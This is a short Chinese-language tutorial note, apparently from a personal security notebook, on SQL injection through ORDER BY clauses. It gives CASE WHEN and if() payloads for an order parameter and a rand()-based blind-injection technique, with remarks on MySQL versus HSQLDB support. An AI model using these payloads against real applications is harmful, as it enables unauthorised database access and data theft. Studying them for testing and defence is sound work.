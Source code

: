 # case when

 ```sql
SELECT * FROM Person order by (CASE WHEN (1=1) THEN PersonID ELSE FirstName END);
```

==注入代码==

```sql

(case when (SELECT id from servers where id=1) = '1' then ip ELSE description END)

```

### 原理

![image](images/ED95C9F6CC11407C972FCFC75752121Fclipboard.png)

# if

if语句返回的是==字符类型==，不是整型, 因此如果使用数字代替列名是不行的,如下图

![image](images/AB90C938477A4E1FAC9A4F428187E6BAclipboard.png)

这是在知道列名的前提下使用

```sql
?order=if(表达式,id,username)
```

- 表达式为true时,根据id排序
- 表达式为false时,根据username排序
- 
# 盲注

rand() 函数可以产生随机数介于0和1之间的一个数

当给rand() 一个参数的时候，会将该参数作为一个随机种子，生成一个介于0-1之间的一个数,

种子固定,则生成的数固定

order by rand:这个不是分组，只是排序，rand()只是生成一个随机数,每次检索的结果排序会不同

```
order by rand(表达式)

```

eg:

```sql
rand((select 5)=30)
```

==当表达式为true和false时，排序结果是不同的，所以就可以使用rand()函数进行盲注了。==

==hsqldb数据库貌似无法使用此方法，但是mysql可以使用==

# 总结

在知道数据库表的列名和表名的情况下，优先使用case when（基本大多数据库都支持，包括hsqldb），其次才是if函数